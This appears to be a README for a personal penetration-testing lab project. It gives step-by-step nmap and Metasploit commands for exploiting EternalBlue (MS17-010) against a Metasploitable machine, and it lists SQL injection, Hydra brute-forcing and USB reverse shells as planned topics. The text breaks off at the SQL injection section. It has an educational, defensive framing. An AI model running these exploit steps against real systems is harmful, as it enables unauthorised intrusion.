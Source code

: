 CAUTION: USING ANY OF THESE METHODS WITHOUT OWNERS CONSENT MAY/WILL RESULT IN PERSECUTION. ENSURE ALL PROPER PROCEDURES HAVE TAKEN PLACE BEFORE MOVING ON. 
[Under Construction]
___________________
The objective of this project was to familiarize myself with known vulnerabilities and
with said knowledge, be able to build counter measures/patch necessary apps & OS. 
___________________

 - Eternal Blue is one of my favorite vulns, it exposed how many devices could be easily infected with little to no effort by sending modified packets 
to the victim machine. Windows had a vulnerability within the OS server message block. This has crippled entire sectors of industrial sites when combined
with wannacry.

 - SQL Injection is a very common attack vector as many corporations/servers use SQL. 

 - Brute force ssh using hydra to show how basic ssh/telnet/ftp/sftp/mysql services can be brute forced when improperly configured or straight out vulnerable.

 - Reverse shells by "dropping USBs" (simulating a physical pentest)
   
--------------------------
HOW TO REPLICATE 
--------------------------
NOTE: I will be using metasploitable both win/linux to demonstrate most if not all vulns/exploits. 

- 💙Eternal Blue💙
-----------------------------
   Step 1: Once your windows server and kali/parrot machine is spun up, ensure the two machines can communicate with each other by either using netdiscover or Nmap. | sudo netdiscover -r ipaddress/prefix | OR | nmap -T4 -sV --version-all --osscan-guess -A -p 1-10000 ipaddress |
------------------------------
  Step 2: Use Nmap to confirm the windows server is vulnerable by using one of the NSE scripts that come with Nmap, | nmap -p 139, 445 --script smb-vuln-ms17-010 ipaddress |
------------------------------
 Step 3: Once verified, within your attacking machine spin up msfconsole and search for the smb-ms17-010 exploit and configure it for your victim machine. | msfconsole , use exploit/windows/smb/ms17_010_eternalblue , options , set rhost ipaddress , check , run |
------------------------------
Congrats you have used an exploit to gain unauthorized access!
++++++++++++++++++++++++++++++
- ✒️SQL Injection✒️ 
Step 1:






